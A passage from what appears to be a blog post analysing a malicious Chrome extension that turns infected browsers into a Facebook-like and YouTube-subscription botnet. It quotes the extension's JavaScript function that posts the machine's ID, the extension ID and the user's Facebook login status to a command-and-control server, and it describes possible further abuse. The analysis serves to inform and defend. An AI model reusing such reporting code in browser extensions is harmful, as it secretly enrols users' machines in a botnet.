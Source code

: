 It seems likely to me that the page in question must've bought some Likes from some dodgy provider (which, side note, is an adjective that applies to all Facebook Like sellers) that creates Likes from infected computers instead of clickfarms or something. Though this is pure speculation, I'm certain that something fishy is going on with this page.

### Subscribing you to YouTube channels
I didn't get any instructions to subscribe to any YouTube channels, but the code does contain a function that does just that. 

### Reporting back to the server
The extension can also report back to the <abbr title="Command and Control">C&C</abbr> server about its current status, through the following function:

{% highlight javascript linenos %}
function sendStatus(data) {
	chrome.storage.local.get('uid', function(storage) {
		data.id = storage.uid;
		data.extension_id = chrome.runtime.id;
		data.fbLoginStatus = fbLoginStatus;
		
		var xhr = new XMLHttpRequest();
		
		xhr.open('POST', STATUS_URL, true);
		xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
		xhr.send(queryString.stringify(data));
		
		console.log('Status data has been sent', data);
	});
}
{% endhighlight %}

It sends three things back to the server:

1. The <abbr title="Unique Identifier">UID</abbr>, a unique <abbr title="Identifier">ID</abbr> string that identifies the infected machine
2. The extension <abbr title="Identifier">ID</abbr>, a string corresponding to the extension that is reporting back (because there are multiple copies of the same extension available in the Chrome Webstore, and the malware operators might need to know which one you have).
3. Whether the infected machine currently is signed into Facebook

I'm taking it that the malware operators use this information to judge the exact size and activity of their botnet, as these are factors that determine its value on the black market.

### And potentially much more
The extension is always on the lookout for a new version of the payload. Though I haven't witnessed it change, it could very well evolve and gain new capabilities.

Since the malware has permission to "read and change all your data on the websites you visit", its operators could gain total control over everything that happens in your browser. They could potentially read your emails, steal all your login credentials, have you DDoS someone, mine Bitcoin, seed pirated content... You name it. That even includes reading and leaking your credit card information, if you ever are to type that in.

Your local files are off-limit though, if that's of any consolation. Hurray, right?

